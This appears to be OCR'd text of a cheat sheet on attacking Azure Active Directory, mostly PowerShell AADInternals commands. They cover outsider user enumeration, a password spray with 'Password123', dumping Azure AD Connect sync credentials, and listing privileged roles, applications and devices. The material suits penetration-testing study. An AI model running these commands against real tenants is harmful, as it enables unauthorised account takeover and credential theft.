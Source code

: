 ## Enumerating Azure Active Directory Accounts

### User Enumeration Techniques
```powershell
# Using AADInternals for user enumeration
Get-AADIntUsers -Domain target.com

# Enumerate users via login attempts
Invoke-AADIntUserEnumerationAsOutsider -UserName user@target.com

# Password spray attack
Invoke-AADIntPasswordSprayAsOutsider -DomainName target.com -UserNames users.txt -Password "Password123"

# Check user existence
Test-AADIntUserExistence -User user@target.com
```

### Azure AD Connect Enumeration
```powershell
# Get Azure AD Connect information
Get-AADIntSyncConfiguration

# Enumerate sync accounts
Get-AADIntSyncCredentials

# Check hybrid configuration
Get-AADIntAzureADConnectConfiguration
```

### Group and Role Enumeration
- **Administrative Groups**: Global admins, privileged role administrators
- **Service Principals**: Application identities and service accounts
- **Guest Users**: External users with access to tenant
- **Conditional Access**: Policies affecting user access

### Advanced Enumeration Methods
```powershell
# Enumerate applications
Get-AADIntApplications

# Get service principals
Get-AADIntServicePrincipals

# Enumerate devices
Get-AADIntDevices

# Check tenant policies
Get-AADIntTenantPolicies
```
